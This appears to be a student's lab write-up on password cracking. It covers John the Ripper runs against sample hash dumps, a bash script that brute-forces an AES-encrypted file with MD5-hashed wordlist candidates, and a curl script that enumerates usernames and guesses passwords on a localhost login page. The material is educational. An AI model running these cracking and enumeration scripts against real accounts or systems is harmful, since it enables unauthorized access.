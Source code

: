 
## Part A-  BASIC PASSWORD CRACKING

**Skills to learn**: John the ripper cracking modes 

Check the files folder inside this directory. It should contain, 

  - Password hash files: easy_dump, medium_dump, hard_dump
  - wordlists folder: GawkerPasswords.txt, SonyPasswords.txt, YahooVoicePasswords.txt, passwords.txt

We will use John along with [jumbo patch](http://openwall.info/wiki/john/patches). Every file, namely, easy_dump, medium_dump, hard_dump has 5 users you need to crack

To view passwords already cracked by JTR for a password dump file, one can run the following command: ```~/JohnTheRipper-unstable-jumbo/run/john --show easy_dump```

### Cracking easy_dump

The following command tells JTR to try “simple” mode, then the default wordlists containing likely passwords, and then “incremental” mode. In other words, JTR uses default modes. 

```~/JohnTheRipper-unstable-jumbo/run/john easy_dump```

NOTE: ~/JohnTheRipper-unstable-jumbo/run/john is a path to the executable 

### Cracking medium_dump

The wordlist mode allows JTR to use thousands of passwords and generate their hashes to compare them to the hashes inside the file
```~/JohnTheRipper-unstable-jumbo/run/john --wordlist=/home/student/wordlists/YahooVoicePasswords.txt medium_dump```

I was able to crack only one user with YahooVoicePassowrds. Therefore, I used another wordlist RockYouPasswords.txt. This wordlist is not present in this repo because of size but I believe one can use /usr/share/wordlists/rockyou.txt.gz in Linux. 

Through this command, I was able to crack rest of the users 

```~/JohnTheRipper-unstable-jumbo/run/john --wordlist=/home/student/wordlists/RockYouPasswords.txt medium_dump```

### Cracking hard_dump

This one occupied most of my time. To crack hard users, we will use wordlists with "mangling rules" provided by JTR. 

```~/JohnTheRipper-unstable-jumbo/run/john --rules --wordlist=/home/student/wordlists/YahooVoicePasswords.txt hard_dump```
```~/JohnTheRipper-unstable-jumbo/run/john --rules --wordlist=/home/student/wordlists/RockYouPasswords.txt hard_dump```

However, I was only able to find 4 users with this. For the 5th user, I used ```--rules:single```. This is a hybrid of mangling rules with simple mode. It turned out that 5th user password was in a wordlist but it was flipped. 


<br> 

## Part B - OFFLINE ATTACK 

**Skills to learn**: Bash scripting, openssl utility, Generating passwords from John the ripper to stdout 

Hacker encrypted the file: secret_file.aes256.txt
- It was encrypted using AES 256 using the openssl command line tool.
- The encrypted file is BASE64 encoded.
- The hacker thought that since passwords were insecure, they would first hash their encryption password using md5 to make it "more random" and harder to guess.
- The MD5 hash of the hacker's password was used as the password given to openssl for the AES encryption.
- The contents of the file are Lorem Ipsum in ascii text.

```
rm /home/student/JohnTheRipper-unstable-jumbo/run/john.rec

/home/student/JohnTheRipper-unstable-jumbo/run/john --wordlist=wordlists/YahooVoicePasswords.txt -stdout |
  while IFS= read -r password
  do
    #echo "\n ----------------------------------------"
    #echo "\n Password generated is $password"
    hash=`echo -n $password | openssl dgst -md5 | cut -d ' ' -f2`
    #echo "\n MD5 hash of the password is $hash"
    #echo "\n Output while decryption ..."
    output=`openssl enc -d -aes256 -a -k $hash -in secret_file.aes256.txt`
    if [ $? -eq 0 ]; then
        echo $output | grep -P -n "[\x80-\xFF]"
        if [ $? -eq 0 ]; then
            continue
        else
            echo "\n found 1 $password"
            exit 0;
        fi
    fi
  done
echo "NOT FOUND :("
```

This is my exploit. Let's break it down to understand it. 

```rm /home/student/JohnTheRipper-unstable-jumbo/run/john.rec``` -> This is done to prevent the error "Crash recovery file is locked". 

```/home/student/JohnTheRipper-unstable-jumbo/run/john --wordlist=wordlists/YahooVoicePasswords.txt -stdout |``` -> Generate passwords from wordlist using John and output them on stdout. Later, pipe them so our while loop can read them line by line. 

```    hash=`echo -n $password | openssl dgst -md5 | cut -d ' ' -f2` ``` -> Generate md5 hash and just take the hash value from output i.e remove extra text "(stdin)="

```    output=`openssl enc -d -aes256 -a -k $hash -in secret_file.aes256.txt` ``` -> Try to decrypt using openssl. 

```    
if [ $? -eq 0 ]; then 
  echo $output | grep -P -n "[\x80-\xFF]"
        if [ $? -eq 0 ]; then
            continue
        else
            echo "\n found 1 $password"
            exit 0;

``` 

-> $? refers to the exit status of the last command executed. If the command was successful, then it is 0 otherwise 1

```  echo $output | grep -P -n "[\x80-\xFF]" ``` -> Exit status of this command is 0 if non ASCII character were found

<br> 

## Part C - ONLINE ATTACK 

**Skills to learn**: curl command line tool, bash scripting, password cracking

Our goal is to get past the login page of the website below. We would need to find active usernames and crack password for one of the accounts. 

[[Website]]

I tried a random username and I get a following alert:

[[website username not found]]

I run the following script to find active usernames: 

```
cat facebook-firstnames.txt | head -n100000 |
  while IFS= read -r uname
  do
    #echo $uname
    output=`curl --data "username=$uname&password=123" localhost:5000/login 2>/dev/null | grep "Error. Username does not exist."`
    if [ $? -eq 0 ]; then
        continue
    else
        echo "$uname" >> "valid_usernames.txt"
        echo $uname
    fi
  done
```

This script works by making a POST request to the server and if the response contains **"Error. Username does not exist."**, we can skip that username and look for other candidates

I tried to login with an active user "adam" with a random password. This is what I got: 

[[website Invalid password.]] 

Again, we can modify our existing exploit to search for "Invalid password." string here.



**NOTE**: Here, I am not using wordlists from **partA**. Instead, I am using 500-worst-passwords.txt I found on a random Github repo. This is because, users on social media sites are most likely to use bad passwords than linux users.

**SECURITY LESSON:** From this website and exploit, we can safely deduce that one should display same message for wrong usernames and passwords. Otherwise, it is easy for one to enumerate users. One username is enough to find a security weaklink. 

I found the password "123456789" for a user named "michael". We're in ;) 

[[login]]

